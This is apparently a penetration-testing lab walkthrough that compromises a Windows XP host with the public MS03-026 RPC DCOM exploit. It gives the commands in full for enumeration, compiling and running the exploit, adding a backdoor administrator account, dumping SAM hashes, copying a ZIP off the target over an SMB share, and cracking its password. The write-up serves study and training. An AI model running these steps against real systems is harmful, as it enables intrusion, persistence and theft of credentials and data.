








## Enumeration
### NMAP
```text
PORT      STATE    SERVICE      VERSION
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Microsoft Windows XP microsoft-ds
1025/tcp  open     msrpc        Microsoft Windows RPC
```

### SMB

SMB is enabled on the target, we can try listing shares.

```bash
smbmap -H 10.11.1.5
```



Based on the port scan we can see port `1025` is open for `RPC` or Microsoft's Remote Procedure Call. Let's try researching some possible exploits for this service.

## Shell as SYSTEM

### Finding Exploit



We are looking for a remote exploit since we currently don't have a foothold on te machine, the platform we are targeting is Windows and we are looking for exploits based on RPC.

If we filter by Date, because we are looking for exploits developed around the time Windows XP was released, we find a number of exploits targeting RPC DCOM. Since we are exploiting Windows we need to find an exploit that is developed specifically for our version.

The [Microsoft Windows XP/2000 - RPC DCOM Remote (MS03-026)](https://www.exploit-db.com/exploits/66) looks like it should work. It also mentions that it targets Windows XP SP0 and SP1.

```bash
wget https://www.exploit-db.com/download/66 -O ms03-026.c
```

### Compiling Exploit

Since this exploit is written in C, we need to compile it. We can just use `gcc` for this.

```bash
gcc ms03-026.c -o ms03-026
```



It does compile with a number of warnings. These should be fine, errors are what will prevent the compilation.

We can test the exploit by following the syntax listed in the exploit code.

```c
/*
  - Usage: ./dcom <Target ID> <Target IP>
  - Targets:
  -          0    Windows 2000 SP0 (english)
  -          1    Windows 2000 SP1 (english)
  -          2    Windows 2000 SP2 (english)
  -          3    Windows 2000 SP3 (english)
  -          4    Windows 2000 SP4 (english)
  -          5    Windows XP SP0 (english)
  -          6    Windows XP SP1 (english)
*/
```

```bash
./ms03-026 6 10.11.1.5
```

After executing the exploit, we get a shell.



## Post Exploitation

### SMB

If we attempt to run `whoami` it tells us that it's an unrecognised command. We can upload our own executable.

Before we can upload and exfiltrate files from the target we must first setup a local SMB share, we can use `impacket` for this.

```bash
impacket-smbserver kali .
```

On the target we can add our newly created network share.

```powershell
net use * \\<LHOST>\kali
```

To upload our own `whoami` executable we first need to copy it to our SMB share.

```bash
cp /usr/share/windows-resources/binaries/whoami.exe ./tools
```

Now on the target we can move to the `C:\Windows\Temp` directory, copy our `whoami` executable and execute it.

```powershell
cd c:\windows\temp
copy z:\tools\whoami.exe ./
whoami
```



We are already `NT AUTHORITY\SYSTEM`. We can now gather `proof.txt`.

```powershell
dir /s /p proof.txt
```



### Add User

Before continuing, let's get a bit of persistence on the target by creating our own user. This will also help us dump the targets hashes.

```powershell
net user glowbase password /add
net localgroup Administrators glowbase /add
```

### Dump Hashes

We can now dump the hashes from the `SAM`.

```bash
impacket-secretsdump glowbase:password@10.11.1.5 -outputfile evidence/files/hashes
```

### Exfiltrate ZIP

Now that we have the system hashes we can start looking for interesting files to exfiltrate off the target.

In the `C:\` directory we can already see a `bank-account.zip`.

```powershell
copy bank-account.zip z:\evidence\files\
```

Back on our local machine we can unzip it and look at it's contents.

```bash
unzip -d bank-account bank-account.zip
```

### Crack ZIP



Unfortuntely we require a password for unzipping the file. We can try brute forcing the password using `fcrackzip`.

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
```

Almost instantly the password `alice` is found. We can now re-attempt to unzip the file.

Inside the folder is an excel spreadsheet called `bank-account.xls` containing credentials.

